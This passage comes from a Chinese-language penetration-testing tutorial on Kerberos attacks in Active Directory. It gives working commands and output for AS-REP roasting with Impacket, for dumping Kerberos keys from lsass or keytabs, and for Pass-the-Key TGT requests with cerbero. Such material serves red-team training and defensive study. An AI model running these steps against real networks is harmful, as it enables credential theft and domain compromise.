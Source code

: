 ```bash
$ GetNPUsers.py 'contoso.local/Anakin:Vader1234!' -dc-ip 192.168.100.2 -outputfile asreproast-hashes.txt
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
han             2020-12-16 10:53:35.177156  2021-05-12 09:19:28.469863  0x410200 

root@debian10:~# cat asreproast-hashes.txt 
$krb5asrep$23$han@CONTOSO.LOCAL:73eea4275625972c2e224648c4766b5a$1bbdaba56bb6eba4ea8cb565221d
```

有了用户TGT，就可以用hashcat破解它。可以请求使用RC4加密的AS-REP，以便更轻松地破解它

### **Pass the Key/Over Pass the Hash**

请求TGT不需要密码而是Kerberos密钥(NT hash or AES keys)

win里，Kerberos密钥通常缓存在lsass进程， [mimikatz sekurlsa::ekeys](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#ekeys)命令可以拿， [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), [sqldumper or others ](https://lolbas-project.github.io/#/dump)也可以 [dump the lsass process](https://www.c0d3xpl0it.com/2016/04/extracting-clear-text-passwords-using-procdump-and-mimikatz.html) 并用mimikatz离线提取密钥

Linux，在[keytab](https://web.mit.edu/kerberos/krb5-devel/doc/basic/keytab_def.html) 文件，在/etc/krb5.keytab，或在环境变量 KRB5_KTNAME or KRB5_CLIENT_KTNAME ，或在/etc/krb5.conf 的 [Kerberos configuration file](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/conf_files/krb5_conf.html)， [klist](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/klist.html) (Kerberos MIT) or [cerbero ](https://gitlab.com/Zer1t0/cerbero/#list)可以拿到密钥

```text
###Reading keytab with klist
$ klist -k -Ke
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   1 r2d2@contoso.local (DEPRECATED:arcfour-hmac)  (0xc49a77fafad6d3a9270a8568fa453003)
```

拿到Kerberos密钥后请求TGT：

windows 用 [Rubeus asktgt](https://github.com/GhostPack/Rubeus#asktgt)

Linux 用 [MIT Kerberos utils ](https://malicious.link/post/2018/pass-the-hash-with-kerberos/)拿密钥创建keytab 再请求TGT，或者[impacket getTGT.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) script or [cerbero ask](https://gitlab.com/Zer1t0/cerbero#ask) command 直接请求。

```bash
###Pass-The-Key with cerbero
$ cerbero ask -u contoso.local/Anakin --aes ecce3d24b29c7f044163ab4d9411c25b5698337318e98bf2903bbb7f6d76197e -k 192.168.100.2 -vv
INFO - Request contoso.local/Anakin TGT for contoso.local
INFO - Save contoso.local/Anakin TGT for contoso.local in /root/Anakin.ccache
```

Kerberos票据有两种格式：ccache and krb
